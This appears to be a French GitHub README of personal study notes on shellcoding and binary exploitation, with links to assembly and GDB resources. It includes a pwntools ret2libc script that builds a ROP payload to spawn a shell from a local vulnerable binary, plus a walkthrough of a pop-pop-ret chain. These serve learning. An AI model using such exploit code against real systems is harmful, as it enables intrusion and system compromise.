 # Petit readme où j'étale les ressources et réflexions utilisées au fur et à mesure de mon apprentissage des bases du shellcoding 
Je n'ai aucune compétence préliminaire en assembleur, les codes de mes mains sont donc particulièrement moches et surement peu logiques.


## introduction au shellcoding avec pile executable - RootMe
[Conférence @VoydStack - Writing Shellcodes for dummies](https://www.youtube.com/watch?v=zxhQevqX_7w&t=1288s&ab_channel=Root-Me)


## compilation et extraction d'un shellcode simple en assembleur
[compile.sh](./compile.sh)

## premier challenge de shellcoding rootme 

## RESSOURCES assembleur x64
[Assembly Language & Computer Architecture Lecture (CS 301)](https://www.cs.uaf.edu/2017/fall/cs301/lecture/09_11_registers.html)

[misc/syscalls64.md · Hackndo](https://github.com/Hackndo/misc/blob/master/syscalls64.md)

[gdb.pdf](https://web.cecs.pdx.edu/~apt/cs510comp/gdb.pdf)

[Debugging assembly with GDB – ncona.com – Learning about computers](https://ncona.com/2019/12/debugging-assembly-with-gdb/)

[x64_cheatsheet.pdf](https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf)

## tester si la pile est executable
```{bash}

```

## 

## BYPASS DE NX et ASLR en utilisant ret2libc et des ROP

[www.trustwave.com](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/babys-first-nxplusaslr-bypass/)

La librairie 'struct' et de l'huile de coude pour trouver et mettre sous forme de shellcode les bonnes adresses mais la librairie 'pwtools' peut aider à cela :

```{python}
from pwn import *

# Configuration de la connexion au binaire vulnérable
context.binary = './vulnerable_program'
elf = ELF('./vulnerable_program')
libc = elf.libc

# Trouver l'offset du dépassement de tampon
offset = 64

# Trouver les gadgets ROP
rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]

# Adresse de la fonction system() dans libc
system_addr = libc.symbols['system']

# Adresse de la chaîne "/bin/sh" dans libc
bin_sh_addr = next(libc.search(b'/bin/sh'))

# Construire le payload
payload = b'A' * offset
payload += p64(pop_rdi)
payload += p64(bin_sh_addr)
payload += p64(ret)
payload += p64(system_addr)

# Envoyer le payload au programme vulnérable
p = process('./vulnerable_program')
p.sendline(payload)
p.interactive()
```



exemple de ROP :
l'instruction pop-pop-ret après strcpy

AVANT STRCPY:
strcpy@plt <- EIP, adresse de retour originale écrasée par buffer overflow
pop-pop-ret@ROP
dst (bss)
src (adresse du char 's')


PILE DURANT STRCPY :
ret addr (push par call strcpy) <- EIP (pointe en fait sur le ROP car le shellcode continue dans la pile)
pop-pop-ret@ROP
dst (bss)
src
reste du shellcode stoqué dans la pile...

PILE APRES STRCPY (ret dans strcpy dépile la tete de pile) :
pop-pop-ret@ROP <- EIP
dst
src
reste du shellcode ...

/!\ sans le ROP, on aurait EIP qui pointe sur dst (suite logique du programme du shellcode), et ferait crash le programme

PILE APRES ROP :
reste du sellcode instruction 1 (prochain strcpy ) <- EIP 
(dépilé dans EIP mais pour l'image on laisse dans la pile)
reste du shellcode ...